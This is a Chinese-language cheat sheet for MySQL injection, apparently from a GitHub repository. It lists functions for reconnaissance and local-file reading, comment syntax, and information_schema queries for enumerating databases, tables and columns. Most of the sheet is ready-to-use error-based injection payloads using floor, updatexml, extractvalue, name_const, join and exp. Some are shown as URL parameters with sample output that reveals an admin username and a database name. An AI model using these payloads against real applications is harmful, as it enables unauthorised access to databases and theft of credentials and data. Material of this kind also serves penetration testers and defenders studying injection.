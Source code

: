 # mysql注入速查表

## 常用函数

`@@hostname`  主机名称

`@@datadir`  数据库所在路径

`@@version_compile_os`  查看操作系统版本

`database()`  当前数据库名称

`user()`  数据库用户名

`version()`  当前版本

`order by x / gruop by x`  判断列数

`load_file()` MYSQL读取本地文件的函数

## 字符串函数

`concat(str1,str2)`  不用分隔符连接字符串

`concat_ws(separator,str1,str2)`  用分隔符连接字符串

`group_concat(str1,str2)`  连接一个组的所有字符串，并以逗号分隔


## 注释

* `# `、`--+`、`%23`
* `/*`、`-- -`

## 逻辑运算符

`and`、`or`

## 常用语句

> 所有数据库

```sql
select schema_name from information_schema.schemata
```

> 某库的所有表

```sql
select table_name from information_schema.tables where table_schema='xxx'
```

> 某表的所有列

```sql
select column_name from information_schema.columns where table_name='xxx'
```

## 报错注入

### floor报错

```sql
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

### updatexml、extractvalue函数报错

`UPDATEXML (XML_document, XPath_string, new_value);`

**有长度限制，最长32位**

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc。

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。

第三个参数：new_value，String格式，替换查找到的符合条件的数据。

```
http://www.host.com/index.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
http://www.host.com/index.php?id=updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
http://www.host.com/index.php?id=updatexml(1,concat(0x7e,SUBSTR((SELECT @@version),1,24),0x7e),1)

t.title='1' and updatexml(1,concat(0x7e,(SELECT username FROM bage_admin where id=1),0x7e),1)
(1105, u"XPATH syntax error: '~admin~'")

t.title='1' and extractvalue(0x7e,concat(0x7e,(select database())))
(1105, u"XPATH syntax error: '~bagecms'")
```

### name_const报错

```sql
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
```

### join报错

```sql
select * from(select * from mysql.user a join mysql.user b)c;
```

### exp报错

```sql
and exp(~(select * from (select user () ) a) );
```


[Mysql注入点在limit关键字后面的利用方法](https://www.freebuf.com/articles/web/57528.html)

## 其他

* Mysql 中将blob类型转换成varchar类型

`SELECT CAST(sess_data AS CHAR(10000) CHARACTER SET utf8) FROM biz_session WHERE sess_id = 'bc837fc3a2f3217bb48854ff1f343eee'`